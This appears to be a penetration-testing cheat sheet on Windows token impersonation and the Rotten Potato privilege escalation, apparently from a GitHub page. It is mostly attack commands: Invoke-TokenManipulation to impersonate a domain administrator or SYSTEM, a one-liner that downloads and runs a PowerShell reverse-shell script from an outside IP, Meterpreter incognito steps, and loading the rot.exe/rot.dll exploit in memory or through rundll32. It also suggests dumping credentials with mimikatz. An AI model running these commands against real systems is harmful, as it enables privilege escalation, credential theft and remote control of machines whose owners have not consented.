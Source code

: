 ## Token Impersonation

Token impersonation is a technique you can use as local admin to impersonate another user logged on to a system. This is very useful in scenarios where you are local admin on a machine and want to impersonate another logged on user, e.g a domain administrator.

##### Powershell
We can do token impersonation directly in powershell with a completely legitimate module. This will spawn a new thread as the user you impersonation, but it can be made to work in the same thread. Therefore, if you impersonate and then type whoami it might still show the original username, but you still have privs as your target user. If you do however spawn a new process (or a new shell) and migrate to that you will have a shell as the account you are impersonating.

Invokes token impersonation on a domain user. If this doesn't work you can try impersonating SYSTEM and then dropping credentials using mimikatz.

`Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"`

`Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"`

`Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"`

As a replacement for the last command you could do, but be vary of special characters in the command like `"` and `'`
`Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"`

https://github.com/clymb3r/PowerShell/tree/master/Invoke-TokenManipulation

### Rotten potato exploit
The rotten potato exploit is a privilege escalation technique that allows escalation from service level accounts to SYSTEM through token impersonation. This can be achieved through uploading an exe file exploit and executing or through memory injection with psinject in either Empire or Metasploit. See [Foxglove security's writeup](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) of the exploit for more detail.

##### Meterpreter
Get a meterpreter shell as a service account and upload rot.exe to the box.

`getuid` - shows who you are, like `whoami`
`getprivs` - shows you available tokens for impersonation
`getsystem` - allows SYSTEM token impersonation directly in meterpreter if local admin
`use incognito` - loads an extension that allows token impersonation
`list_tokens -u` - lists available impersonation and delegation tokens

Now this is not very nice, but upload the exploit to disk
Now you can use meterpreter's feature of executing binaries straight into memory and if that doesn't work upload it to disk as a dll and use rundll32 to execute it.

`execute -H -c -m -d calc.exe -f /root/rot.exe`
`upload rot.dll "c:\temp\rot.dll"`
`execute -H -c -f "rundll32 c:\temp\rot.dll,Main`
Now do `list_tokens -u` again, and an impersonation token for SYSTEM should be available.
You can then impersonate using 

```
getuid
getprivs
getsystem
use incognito
list_tokens -u
cd c:\\temp\
execute -Hc -f ./rot.exe
impersonate_token "NT AUTHORITY\SYSTEM"
```
